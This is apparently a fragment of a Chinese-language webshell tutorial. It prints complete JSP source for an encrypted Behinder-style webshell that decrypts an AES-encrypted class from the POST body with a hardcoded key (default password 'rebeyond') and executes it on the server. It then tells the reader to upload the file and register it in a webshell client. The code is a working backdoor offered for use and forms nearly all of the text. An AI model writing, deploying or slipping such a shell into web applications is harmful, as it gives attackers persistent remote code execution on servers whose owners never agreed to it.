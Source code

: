 ```php
```

jsp

```jsp
<% @page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<% !class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }
    public Class g(byte []b) {
        return super.defineClass(b, 0, b.length);
    }
}
%>
<% if (request.getMethod().equals("POST")) {
    String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
    session.putValue("u", k);
    Cipher c = Cipher.getInstance("AES");
    c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
    new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
}
%>
```

文件上传步骤同上，右键-新增，填写好 webshell 信息

![image-20230815165140852](img/WebShell/image-20230815165140852.png)
